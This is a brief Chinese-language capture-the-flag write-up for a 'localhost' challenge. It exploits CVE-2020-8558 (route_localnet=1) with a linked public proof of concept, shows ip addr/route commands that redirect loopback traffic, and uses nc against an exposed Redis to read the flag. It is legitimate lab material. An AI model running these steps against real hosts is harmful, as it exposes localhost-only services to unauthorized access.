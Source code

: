 # localhost

連上去直接給你一台root機器和nmap

掃一下內網會看到一台有開80 port

裡面附了redis.conf和sysctl.conf

重點在 `net.ipv4.conf.all.route_localnet=1`

隊友說是老梗

翻了一下是 CVE-2020-8558

然後隨便找了一個poc

https://github.com/tabbysable/POC-2020-8558#poc-2020-8558py

```
ip addr add 127.0.0.2/8 dev lo
ip addr del 127.0.0.1/8 dev lo
ip route add 127.0.0.1/32 via 10.193.230.180

python3 poc-2020-8558.py 10.193.230.180
nc 198.51.100.1 6379
```

```
keys *
*1
$33
flag_is_here_iedie8Ee5eniequ4uNie
get flag_is_here_iedie8Ee5eniequ4uNie
$61
cybrics{m05T_C0mm0N_s3CuR1tY_m34SuRe_4nD_L34St_c0MmoN_sysctl}
```


